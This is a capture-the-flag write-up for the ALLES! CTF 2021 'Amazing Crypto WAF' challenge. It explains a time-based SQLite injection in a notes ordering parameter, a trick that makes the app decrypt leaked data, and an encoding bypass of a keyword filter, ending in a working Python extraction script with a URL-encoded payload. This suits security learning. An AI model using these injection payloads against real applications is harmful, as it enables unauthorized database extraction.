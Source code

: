 ```yaml
---
layout: post
title: Amazing Crypto WAF
category: ALLES! CTF 2021
---
```


So last week I was able to play for a few hours with my team, once [Super Gusser](https://ctftime.org/team/130817/),  I joined Discord and found that already half of the web challenge siced :smile: ,  I chose this challenge as a start and my teammate [sapra](https://twitter.com/0xsapra) also joined.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334574-a2d19944-8a0e-4c2f-b549-4335e6aa067a.png" alt="main" >

First the challenge was very simple, you can create an account / log in and you can also post some notes.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334741-9024bcb3-221b-4816-9ae2-af0cc5520123.png" alt="main" >

Based on all of this and checking the source code which was a good hint for us rather than blindly trying to check all kinds of possible bugs :wink: .

Later, after reading the code and checking, `sapra` mentions that there is a possible SQL injection which was a time based SQLi in notes function..

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335060-2ffb3b5a-ce02-4f6f-b807-a2fb04b46e9a.png" alt="main" >

basically we can inject after `order by timestamp`, using this sqli we can leak all data on sqlite database including the flag (the flag was located in the` flagger` account note)

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335349-f515758e-69bf-4164-8207-bc0ab3059ad3.png" alt="main" >

But !! if we check the code again we can see that the app encrypts all data before inserting it into sqlite database and decrypts it again when requested

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336000-7684f027-e9c4-4675-aac7-c823c074d2e4.png" alt="main" >

So the issue here, how we can decrypt the flag, even though we can leak it, as the encryption is strong enough and can't be exploited, which means the only way is to find out how we can make the app decrypt the flag for us

The real problem is that if we post a note with the flag leaked, it will be encrypted again and decrypted once, which means we won't be able to get the clear text, but there was a weakness in the code, exactly in the encryption function

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336496-33f556af-b438-44d7-ab7c-fb6bc8e3f32d.png" alt="main" >

As the application does not encrypt `'uuid', 'id', 'pk', 'username', 'password'` and it does store it in plaintext, we can use this part and create an account with username as encrypted flag and once we are logged in the flag will be decrypted as the app decrypts all content of the response

```
response_data = decrypt_data(proxy_request.content)
```

So what's left here is just leak the flag and decrypt it, but the last step was to bypass the easy waf that detects certain words.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336897-499aeed0-6b69-4d82-bdbd-2d7b9fa23290.png" alt="main" >

Using a simple encoding can do the job here, which means we have all the steps we need :)

1 - `Leak "flagger" account notes ( flag note )`

2 - `Create an account using flag as username`

3 - `Read the flag from the home page`


```
import requests
import time

cookies = {
    'session': '116c6bf2d2de45a8d4a1bdac5524fc01.b810785f36c37cc8d4cf48b55c0e45716dd7ccb38f80ac19a08f2a41371711a',
}
#ENCRYPT:SzJEVHVzRmhHaHZmU2pYak0yQVZzQT09OmUzOVBwcXNVWWdhMEw0YXpCVDV2WHRwYnBPRXFaSVpqMFpQRk1BMXNzODE1UGxIUXhwb0hLY2diNGd2VTRYYz06REpPTWk0S01pdmZ3cXVxNFBGcklTdz09
flag_enc = "ENCRYPT:"

pos = len(flag_enc) + 1

for x in range( pos, 200 ):
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ+/=":
        t1 = time.time()
        url = "https://7b000000c73b13b1628e0950-amazing-crypto-waf.challenge.master.allesctf.net:31337/notes%3forder=asc,(CASE%20WHEN%20(select%20substr((select%20body%20from%20notes%20where%20user=(select%20uuid%20from%20users%20where%20username='flagger'))," + str(x) + ",1)%20=%20'" + str(i) + "')%20THEN%2012=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))%20ELSE%20timestamp%20END)%20desc%23"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 0.9:
            flag_enc += i
            break        
    print flag_enc
```

And here is the FLAG : `ALLES!{American_scientists_said,_dont_do_WAFs!}`

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132345085-727ea1ae-5177-4d63-aa78-d4a8082a59b5.png" alt="main" >


